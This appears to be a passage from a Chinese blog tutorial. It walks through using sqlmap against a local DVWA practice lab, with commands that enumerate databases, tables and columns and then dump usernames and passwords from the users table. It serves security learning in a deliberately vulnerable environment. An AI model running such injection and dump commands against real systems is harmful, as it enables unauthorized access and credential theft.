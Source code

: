 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201216222929718.jpg#pic_center)
#### 枚举数据库和指定数据库的数据表
枚举数据库↓
`sqlmap -u "http://192.168.238.129/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=edc3d366bb72538cb8af3df2bbf19979" -dbs`



![在这里插入图片描述](https://img-blog.csdnimg.cn/20201216223127796.jpg#pic_center)

枚举指定数据库的数据表↓
`sqlmap -u "http://192.168.238.129/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=edc3d366bb72538cb8af3df2bbf19979"  -D dvwa --tables`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201216223001597.jpg#pic_center)
#### 获取指定数据库和表中所有列的信息
`sqlmap -u "http://192.168.238.129/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=edc3d366bb72538cb8af3df2bbf19979" -D dvwa --tables -T users -- columns`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201216223232909.jpg#pic_center)
#### 枚举指定数据表中的所有用户名与密码,并down到本地
`sqlmap -u "http://192.168.238.129/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=edc3d366bb72538cb8af3df2bbf19979" -D dvwa --tables -T users -C user,password --dump`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201216223304982.jpg#pic_center)



